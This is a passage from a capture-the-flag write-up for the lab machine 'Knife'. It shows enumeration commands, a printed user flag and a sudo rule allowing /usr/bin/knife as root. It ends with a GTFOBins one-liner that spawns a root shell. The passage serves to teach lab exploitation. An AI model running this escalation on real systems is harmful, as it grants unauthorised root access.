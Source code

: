 There's an Ethernet interface and the loopback interface.

### Hostname

What is Knife's hostname?

```sh
james@knife:~$ hostname
```

```
knife
```

Yeah I know, very surprising.

### Flags

If we check our home folder, we find the user flag.

```sh
james@knife:~$ cat "/home/james/user.txt"
```

```
e58e06d1b79c9ce06e9b30edc87529c0
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
james@knife:~$ sudo -l
```

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We do! We can execute the `/usr/bin/knife` binary as `root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `knife`, we find
[an entry](https://gtfobins.github.io/gtfobins/knife/). Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/knife/#sudo)!

### Exploitation

I'll just copy and paste the given command to abuse our `sudo` permissions:

```sh
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
```
